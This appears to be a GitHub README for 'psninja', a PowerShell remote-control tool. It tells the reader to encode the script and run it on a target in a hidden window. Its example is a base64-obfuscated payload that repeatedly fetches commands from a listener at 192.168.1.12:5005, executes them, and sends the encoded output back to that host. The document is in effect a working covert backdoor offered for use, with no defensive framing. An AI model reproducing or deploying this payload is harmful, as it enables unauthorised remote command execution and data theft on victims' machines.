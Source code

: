 # psninja
Minimalist script<br/>

Step1. Edit IP and port on PS file<br/>
Step2. Base64 encoded with [Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes($string))<br/>
Step3. execute on target with powershell.exe -EncodedCommand $encodedcommand<br/>
Step4. Start Python server and handler<br/>
Step5. Have fun<br/>




example

powershell.exe -windostyle hidden -enc dwBoAGkAbABlACAAKAAkAFQAcgB1AGUAKQB7AA0ACgAgACAAIAAgACAAIAAgAA0ACgAgACAAIAAgACQAYwBtAGQAMQAyADMAIAA9ACAAIABJ
AG4AdgBvAGsAZQAtAFcAZQBiAFIAZQBxAHUAZQBzAHQAIAAtAE0AZQB0AGgAbwBkACAAZwBlAHQAIAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIA
LgAxADYAOAAuADEALgAxADIAOgA1ADAAMAA1AC8AYwBsAGkAIgANAAoAIAAgACAAIABXAHIAaQB0AGUALQBIAG8AcwB0ACAAJABjAG0AZAAx
ADIAMwANAAoAIAAgACAAIABJAGYAIAAoACQAYwBtAGQAMQAyADMALgBDAG8AbgB0AGUAbgB0ACAAIAAtAG4AZQAgACIAIgApACAAewANAAoA
IAAgACAAIAAgACAAIAAgACQAcABvAHMAdABfAGMAbQBkACAAPQAgAEkAbgB2AG8AawBlAC0ARQB4AHAAcgBlAHMAcwBpAG8AbgAgACQAYwBt
AGQAMQAyADMAIAB8ACAATwB1AHQALQBTAHQAcgBpAG4AZwANAAoAIAAgACAAIAAgACAAIAAgACQAYwBtAGQAXwBiAGEAcwBlADYANAAgAD0A
IABbAEMAbwBuAHYAZQByAHQAXQA6ADoAVABvAEIAYQBzAGUANgA0AFMAdAByAGkAbgBnACgAWwBTAHkAcwB0AGUAbQAuAFQAZQB4AHQALgBF
AG4AYwBvAGQAaQBuAGcAXQA6ADoAVQBuAGkAYwBvAGQAZQAuAEcAZQB0AEIAeQB0AGUAcwAoACQAcABvAHMAdABfAGMAbQBkACkAKQAgAA0A
CgAgACAAIAAgACAAIAAgACAAJAB1AHIAaQAgAD0AIAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADEALgAxADIAOgA1ADAAMAA1
AC8AaABhAHgALwAiAA0ACgAgACAAIAAgACAAIAAgACAAJAB1AHIAaQBfAGUAbgBjAG8AZABlAGQAIAA9ACAAIAAkAHUAcgBpACAAKwAgACAA
JABjAG0AZABfAGIAYQBzAGUANgA0AA0ACgAgACAAIAAgACAAIAAgACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBN
AGUAdABoAG8AZAAgAGcAZQB0ACAAJAB1AHIAaQBfAGUAbgBjAG8AZABlAGQADQAKACAAIAAgACAAIAAgACAAIAB9AA0ACgAgACAAIAAgAEUA
bABzAGUAIAB7AA0ACgAgACAAIAAgACAAIAAgACAASQBuAHYAbwBrAGUALQBXAGUAYgBSAGUAcQB1AGUAcwB0ACAALQBNAGUAdABoAG8AZAAg
AGcAZQB0ACAAaAB0AHQAcAA6AC8ALwAxADkAMgAuADEANgA4AC4AMQAuADEAMgA6ADUAMAAwADUALwANAAoAIAAgACAAIAB9AA0ACgBzAGwA
ZQBlAHAAIAAyAA0ACgANAAoAfQA=
